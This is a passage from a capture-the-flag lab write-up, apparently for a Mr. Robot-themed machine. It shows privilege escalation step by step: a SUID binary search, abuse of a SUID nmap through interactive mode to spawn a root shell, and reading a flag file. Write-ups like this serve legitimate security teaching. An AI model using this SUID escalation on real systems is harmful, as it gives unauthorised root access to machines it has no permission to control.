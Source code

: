## Privilege escalation

Let's try to find SUID binaries :  
```
daemon@linux:/$ find / -type f -perm -4000 2>/dev/null 
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

Mh... Why nmap has the suid bit set ? Let's see on [GTFOBins](https://gtfobins.github.io/) if we can spawn a shell using nmap :  
![](https://i.imgur.com/2098KVp.jpg)  

And yes ! We can spawn a shell with nmap ! Let's do this :  
```
daemon@linux:/$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root
#
```

And we have a shell as root ! Let's get the two last flag. The second flag is in `/home/robot` :  
```
# cd /home/robot
# ls -la     
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
# cat key-2-of-3.txt
***************************
```
